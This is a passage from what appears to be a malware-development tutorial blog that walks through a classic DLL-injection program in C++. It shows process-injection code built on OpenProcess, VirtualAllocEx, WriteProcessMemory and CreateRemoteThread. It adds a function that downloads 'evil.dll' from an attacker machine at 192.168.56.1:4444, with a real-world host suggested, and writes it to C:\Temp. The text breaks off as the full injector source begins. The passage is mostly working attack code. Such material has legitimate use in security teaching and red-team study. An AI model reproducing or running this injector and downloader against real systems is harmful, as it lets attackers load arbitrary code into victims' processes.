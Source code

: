 ```cpp
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

It's pretty simple as you can see.    
Here I want to add some simple logic for downloading our `evil.dll`. In the simplest case it will look like this:    

```cpp
// download evil.dll from url
char* getEvil() {
  HINTERNET hSession = InternetOpen((LPCSTR)"Mozilla/5.0", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
  HINTERNET hHttpFile = InternetOpenUrl(hSession, (LPCSTR)"http://192.168.56.1:4444/evil.dll", 0, 0, 0, 0);
  DWORD dwFileSize = 1024;
  char* buffer = new char[dwFileSize + 1];
  DWORD dwBytesRead;
  DWORD dwBytesWritten;
  HANDLE hFile = CreateFile("C:\\Temp\\evil.dll", GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  do {
    buffer = new char[dwFileSize + 1];
    ZeroMemory(buffer, sizeof(buffer));
    InternetReadFile(hHttpFile, (LPVOID)buffer, dwFileSize, &dwBytesRead);
    WriteFile(hFile, &buffer[0], dwBytesRead, &dwBytesWritten, NULL);
    delete[] buffer;
    buffer = NULL;
  } while (dwBytesRead);

  CloseHandle(hFile);
  InternetCloseHandle(hHttpFile);
  InternetCloseHandle(hSession);
  return buffer;
}
```

This function download `evil.dll` from attacker's machine (`192.168.56.1:4444`, but in the real-life scenario it can be looks like `evilmeowmeow.com:80`) and save to file `C:\\Temp\\evil.dll`.   

Then, we run this code in the `main()` function. Full source code of our injector is:   

```cpp
/*
evil_inj.cpp
classic DLL injection example
author: @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <wininet.h>
#pragma comment (lib, "wininet.lib")

char evilDLL[] = "C:\\Temp\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

// download evil.dll from url
char* getEvil() {
```